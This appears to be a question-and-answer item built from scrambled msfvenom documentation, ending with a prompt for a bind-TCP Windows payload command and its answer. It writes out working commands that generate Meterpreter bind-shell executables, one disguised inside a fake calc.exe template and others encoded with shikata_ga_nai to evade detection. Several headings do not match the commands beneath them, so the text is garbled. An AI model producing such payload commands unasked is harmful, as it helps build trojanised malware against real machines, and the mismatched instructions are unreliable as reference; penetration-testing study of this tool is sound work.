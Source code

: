 Context:```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

# How to avoid bad characters
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

To find out what encoders you can use, you can use the -l flag:
To start using msfvenom, first please take a look at the options it supports:
```
./msfvenom -l payloads
```

# How to generate a payload
To see what payloads are available from Framework, you can do:
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

The -p flag also supports "-" as a way to accept a custom payload:
```
./msfvenom --help-formats
```

Syntax example:

 Question: Generate an msfvenom command to create a bind TCP payload for Windows in raw format. The payload should avoid null bytes as bad characters (-b '\x00'). Respond only with the msfvenom command, without any additional explanations or text. 

 Your response: 
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```